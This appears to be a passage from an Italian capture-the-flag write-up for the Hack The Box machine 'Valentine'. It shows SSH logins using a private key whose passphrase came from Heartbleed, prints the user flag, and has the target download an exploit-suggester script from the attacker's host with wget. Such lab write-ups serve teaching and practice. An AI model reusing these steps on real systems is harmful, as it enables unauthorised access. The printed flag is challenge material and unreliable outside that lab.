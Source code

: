 Ci collegiamo tramitte ssh 
```bash
┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# ssh -i hype_key_decrypted hype@10.10.10.79
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed May 17 04:21:24 2023 from 10.10.14.53
hype@Valentine:~$ 
```

>NOTA POSSIAMO ANCHE LOGGARCI CON "hype_key_encrypted" BASTA INSERIRE LA PASSWORD TORVATA CON HEARTBLEED AL MOMENTO DEL LOGIN 
```bash
┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# ssh -i hype_key_encrypted hype@10.10.10.79     
Enter passphrase for key 'hype_key_encrypted': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed May 17 03:25:07 2023 from 10.10.14.53
hype@Valentine:~$cat user.txt 
782669829a447d6bc2c84945afb3da3f
```

# PRIVIESC

Scarichiamo sulla macchina target "linux-exploit-suggester-2"
https://github.com/jondonas/linux-exploit-suggester-2

```bash
hype@Valentine:~$ wget http://10.10.14.53:8000/linux-exploit-suggester-2.pl
--2023-05-17 05:07:04--  http://10.10.14.53:8000/linux-exploit-suggester-2.pl
Connecting to 10.10.14.53:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24292 (24K) [text/x-perl]
Saving to: `linux-exploit-suggester-2.pl'

 0% [                                                                                 ] 0           --.-K/s              
100%[================================================================================>] 24,292      --.-K/s   in 0.1s    

2023-05-17 05:07:05 (171 KB/s) - `linux-exploit-suggester-2.pl' saved [24292/24292]

hype@Valentine:~$ 
hype@Valentine:~$ ls
```
